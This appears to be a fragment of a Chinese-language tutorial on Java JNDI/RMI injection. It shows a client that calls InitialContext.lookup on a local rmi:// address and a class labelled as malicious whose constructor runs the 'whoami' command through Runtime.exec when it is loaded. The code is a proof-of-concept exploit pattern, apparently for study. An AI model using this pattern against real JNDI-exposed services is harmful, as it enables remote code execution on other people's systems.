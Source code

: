客户端代码

```plain
import javax.naming.Context;
import javax.naming.InitialContext;

public class CLIENT {

    public static void main(String[] args) throws Exception {

        String uri = "rmi://127.0.0.1:1099/aa";
        Context ctx = new InitialContext();
        ctx.lookup(uri);

    }

}
```

恶意类

```plain
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class ExecTest {
    public ExecTest() throws IOException,InterruptedException{
        String cmd="whoami";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```
